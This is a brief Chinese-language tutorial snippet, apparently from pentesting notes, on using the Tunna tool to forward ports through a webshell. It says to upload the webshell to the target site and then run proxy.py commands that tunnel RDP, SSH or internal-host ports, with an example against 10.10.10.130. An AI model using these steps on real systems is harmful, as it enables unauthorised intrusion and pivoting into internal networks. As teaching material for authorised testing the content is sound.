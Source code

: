 见[Tunna](https://github.com/SECFORCE/Tunna)(https://github.com/SECFORCE/Tunna):

先上传webshell到目标网站，尝试访问webshell，返回正常就在本地执行：

```bash
python proxy.py -u "http://目标域名/conn.aspx" -l 要绑定的本地端口 -r 远程机器上的指定端口[3389] -v 
//端口转发


python proxy.py -u "http://目标域名/conn.aspx" -l 要绑定的本地端口 -a 内网机器的ip -r 内网机器的指定端口 -v  


python proxy.py -u "http://目标域名/conn.aspx" -l 要绑定的本地端口 -r 远程机器上的指定端口[22] -s[转发ssh服务需要加上此选项] -v
```

```bash
C:\Users\Tim\Desktop\Tunna-master>>python proxy.py -u "http://10.10.10.130/conn.aspx" -l 1234 -r 3389 -v
```

![tunna本地端口转发](/img/hack/%E4%BB%A3%E7%90%86/tunna.png)